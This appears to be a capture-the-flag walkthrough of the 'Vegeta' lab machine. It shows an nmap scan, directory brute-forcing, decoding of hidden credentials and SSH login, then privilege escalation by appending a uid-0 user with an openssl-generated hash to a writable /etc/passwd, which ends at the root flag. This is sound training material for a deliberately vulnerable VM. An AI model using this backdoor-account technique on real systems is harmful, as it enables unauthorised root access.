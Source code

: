 ```yaml
---
categories: [Proving Grounds Play]
tags: [cryptography, PrivEsc]
image:
  path: /Vulnhub-Files/img/Vegeta/front.jpg
  alt: Vegeta Proving Grounds Play Machine 🔥
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled.png)

```bash
IP : 10.0.2.56
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegita]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:57 IST
Nmap scan report for 10.0.2.56
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:98:50:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%201.png)

Lets see the Directory Traversal files —>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%202.png)

Lets got to this file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%203.png)

Lets decode this base64 encoded in readable form →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%204.png)

Now lets see this data.png file and decode it further since it is qrcode so →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%205.png)

Now I got a string → `Password : topshellv` →

But on further enumeration I find this password as a rabbit hole so lets dig in further through directory traversal with rockyou.txt file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%206.png)

Now I got a directory named as `/bulma/` →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%207.png)

Now I got a audio file so lets decode it with morse code decoder →

[https://morsecode.world/international/decoder/audio-decoder-adaptive.html](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%208.png)

From decoder I got the credentials →

```bash
U S E R : T R U N K S  
P A S S W O R D : U $ 3 R
```

Now lets dig into the ssh shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegeta]
└─$ ssh trunks@10.0.2.56
trunks@10.0.2.56s password: 
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 28 21:16:00 2020 from 192.168.43.72
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$
```

Now lets the file permissions →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%209.png)

Since this file can be modifed as trunks too so lets go and add a new user with root privileges →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

```bash
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
trunks@Vegeta:~$ nano /etc/passwd
trunks@Vegeta:~$ su shiv
Password: 
root@Vegeta:/home/trunks# whoami
root
root@Vegeta:/home/trunks# cd ~
root@Vegeta:~# ls -al
total 32
drwx------  3 root root 4096 Jun 28  2020 .
drwxr-xr-x 18 root root 4096 Jun 28  2020 ..
-rw-------  1 root root  186 Jun 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jun 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1379 Jun 28  2020 root.txt
-rw-------  1 root root 1827 Jun 28  2020 .viminfo
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |'

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw

root@Vegeta:~#
```